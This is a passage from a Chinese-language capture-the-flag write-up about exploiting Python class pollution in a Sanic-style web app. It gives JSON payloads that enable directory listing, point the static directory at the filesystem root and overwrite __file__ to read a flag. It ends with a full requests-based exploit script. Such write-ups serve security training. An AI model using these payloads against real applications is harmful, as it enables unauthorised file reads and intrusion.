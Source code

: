 找到**污染directory_view属性的路由**`/src?xh1xxhg=print(app.router.name_index).handler.keywords['directory_handler'].directory_view`

```python
# 污染directory_view值
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view","value": True}
```

接下来找**污染directory对象的路由**，元组parts赋值directory

![image-20240527221117124](https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/image-20240527221117124.png)

![image-20240527221301701](https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/image-20240527221301701.png)

![image-20240527221352852](https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/image-20240527221352852.png)

```python
# 污染directory对象返回值
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory._parts","value": ["/"]}
```

### exp

python底层调用时会对\进行双重转义，所以session得手动获取

编写exp集成payload利用

```python
import requests

docke = "https://47e53c39-3e56-4ec7-b112-13a8cb378f34.challenge.ctf.show"
# Prototype pollute
# First exploit
# 开启列目录功能
data = {"key": "__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view","value": True}

# Secong exploit
# 污染目录对象，污染路径为根目录
# data = {"key": "__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory._parts","value": ["/"]}

# Third exploit
# 读取flag
data = {"key": "__init__\\\\.__globals__\\\\.__file__","value": "/24bcbd0192e591d6ded1_flag"}

cookie = {"session": "0de59a9d92af43d5b12860492fd581b0"}

response = requests.post(url=f'{docke}/admin', json=data,
                         cookies=cookie)
flag = requests.get(url=f'{docke}/src', cookies=cookie)

print(response.text)
print(flag.text)
```
